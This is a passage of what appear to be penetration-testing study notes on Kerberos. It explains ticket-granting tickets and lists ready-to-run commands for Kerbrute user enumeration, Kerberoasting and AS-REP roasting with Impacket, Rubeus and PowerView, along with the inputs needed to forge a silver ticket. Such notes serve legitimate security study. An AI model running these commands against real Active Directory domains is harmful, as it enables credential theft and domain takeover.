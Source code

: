 6. AP-REP - The service grants access 

The main ticket that you will see is a ticket-granting ticket these can come in various forms such as a .kirbi (most common) for Rubeus or .ccache for Impacket.  A ticket is typically base64 encoded and can be used for various attacks. The ticket-granting ticket is only used with the KDC in order to get service tickets. Once you give the TGT the server then gets the User details, session key, and then encrypts the ticket with the service account NTLM hash. Your TGT then gives the encrypted timestamp, session key, and the encrypted TGT. The KDC will then authenticate the TGT and give back a service ticket for the requested service. A normal TGT will only work with that given service account that is connected to it however a KRBTGT allows you to get any service ticket that you want allowing you to access anything on the domain that you want.

#### Kerbrute Enumeration
- `kerbrute userenum --dc $ip -d CONTROLLER.local User.txt`
	- --dc can point to a domain 

### Attack Types 

**Pass the Ticket** - Access as a user to the domain required

#### Kerberoasting
SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running.
Requires access as any user
Retrieves a TGS-REP hash
- Remote: `sudo impacket-GetUserSPNs -request -dc-ip $IP $domain.com/$user`
	- Requests password after
	- Could potentially chain with kerbrute userenum and jsmith.txt
- Local: `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
	- Maybe try with `/tgtdeleg` because it ensures RC4 which is faster
- or Local with `PowerView.ps1`
	- `Get-DomainUser * -spn | select samaccountname`
	- `Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat`
  
#### AS-REP Roasting
Requires access as any user with `PreauthNotRequired on Windows`
- Remote: `Impacket-GetNPUsers -dc-ip $IP -request -outfile $outfile.asreproast $domain.com/$user`
- Local: `.\Rubeus.exe asreproast /nowrap`
- Local enum: PowerView’s `Get-DomainUser -PreauthNotRequired`

#### Silver Ticket 
This is forging our own service ticket
This requires the following three pieces of information:
1. SPN password hash (of service account)
	1. If we already have the password we can use online tools to create the NTLM hash. [CodeBeautify.org](https://codebeautify.org/ntlm-hash-generator). 
2. Domain SID
	1. We can get this with powershell: `Get-ADdomain` (it will look like this: `S-1-5-21-1969309164-1513403977-1686805993`)
3. Target SPN
	1. We can get this with powershell: `Get-ADUser -Filter {SamAccountName -eq "$user"} -Properties ServicePrincipalNames`
	2. It will look like this: `MSSQL/nagoya.nagoya-industries.com`
